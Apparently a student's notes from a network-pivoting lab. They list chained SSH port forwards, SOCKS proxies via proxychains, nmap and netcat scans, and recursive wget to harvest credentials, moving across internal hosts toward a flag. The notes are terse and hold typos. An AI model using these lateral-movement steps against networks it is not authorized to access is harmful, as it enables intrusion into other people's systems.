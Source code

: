 #Avatar

ssh Aang@127.0.0.1 -p 50500 -L 50501:10.0.0.50:22 -NT

ssh Sokka@ip -L 50500:192.168.1.39(new box):22 -NT

ssh Toph@127.0.0.1 -p 50502 -D 9050 -NT

ssh Katara@127.0.0.1 -p 50501 -L 50502:172.16.1.8:22

Follow along 
nmap port scan from bh to float (22,80)
nc ip 80 to ensure its a web server
port 80 open so run wget -r
review files collected to find creds
ssh Sokka@ip
Host ENUM (ap a, ip route, ip nei, ss -ntlp)
port scan newly found hosts through ip nei with proxychains
proxychains nc discovered open ports
poxychains wget -r
ssh Sokka@ip -L 50500:192.168.1.39(new box):22 -NT
ssh Aang@127.0.0.1 -p 50500
Host ENUM (ap a, ip route, ip nei, ss -ntlp) ip nei | grep -v FAILED(hide failed conections)
ping sweep on Aang ssh term
Close -D and create new 
ssh Aang@127.0.0.1 -p 50500 -D 9050 -NT (on loopback and port bc this is how ssh to aang and now proxychains run on aang)
proxychains nmap port scan
proxychains nc
proxychains wget -r 
ssh Aang@127.0.0.1 -p 50500 -L 50501:10.0.0.50:22 -NT (-L to ssh Katara)
ssh Katara@127.0.0.1 -p 50501 (ssh to katara)
Host ENUM (ap a, ip route, ip nei, ss -ntlp) ip nei | grep -v FAILED(hide failed conections)
ping sweep on Katara ssh term
Close -D and create new 
ssh Katara@127.0.0.1 -p 50501 -D 9050 -NT
proxychains nmap port scan
proxychains nc
proxychains wget -r ip
ssh Katara@127.0.0.1 -p 50501 -L 50502:172.16.1.8:22
ssh Toph@127.0.0.1 -p 50502 (ssh to Toph)
Host ENUM (ap a, ip route, ip nei, ss -ntlp)
Close -D and create new
ssh Toph@127.0.0.1 -p 50502 -D 9050 -NT
port scan newly found hosts through ip nei with proxychains
proxychains nc discovered open ports
poxychains wget -r

Tunnel to get acces to a port you dont have access to or encrypt unencrypted traffic not for ports u have access tooooooo


 #Rick&Morty

ssh student@10.50.21.18 -R 50599:127.0.0.1:22 -NT

ssh Beth@127.0.0.1 -p 50502 -D 9050 -NT

ssh Rick@127.0.0.1 -p 50599 -L 50500:10.1.2.18:2222 -NT F to Morty

ssh Morty@127.0.0.1 -p 50500 -L 50501:172.16.10.121:2323 -NT F to Jerry

ssh Jerry@127.0.0.1 -p 50501 -L 50502:192.168.10.69:22 -NT F to Beth

Rick=10.1.2.17 23,80/22int
Morty=10.1.2.18 172.16.10.120 SSH=2222
Jerry=172.16.10.121 SSS=2323
Beth=192.168.10.69 SSH=22

enum host ip for creds from bh with nmap
telnet to Rick with creds
host enum
ping sweep w/ 1 liner
find open ports on rick
ssh student@10.50.21.18 -R 50599:127.0.0.1:22 -NT
ssh Rick@127.0.0.1 -p 50599 -D 9050 -NT
scan follow on networks
find next host and ssh 
ssh Rick@127.0.0.1 -p 50599 -L 50500:10.1.2.18:2222 -NT F to Morty
ssh Morty@127.0.0.1 -p 50500 -D 9050 -NT
host enum
ping sweep w/ 1 liner
find open ports on Morty
scan follow on networks
find next host and ssh port
ssh Morty@127.0.0.1 -p 50500 -L 50501:172.16.10.121:2323 -NT F to Jerry
ssh Jerry@127.0.0.1 -p 50501 -D 9050 -NT
host enum
ping sweep w/ 1 liner
find open ports on Morty
scan follow on networks
find next host and ssh port
ssh Jerry@127.0.0.1 -p 50501 -L 50502:192.168.10.69:22 -NT F to Beth
ssh Beth@127.0.0.1 -p 505002 -D 9050 -NT
host enum
ping sweep w/ 1 liner
find open ports on Morty
scan follow on networks
find next host and ssh port

once -D is the final box execute on flagged port
proxychains nc 127.0.0.1 54321
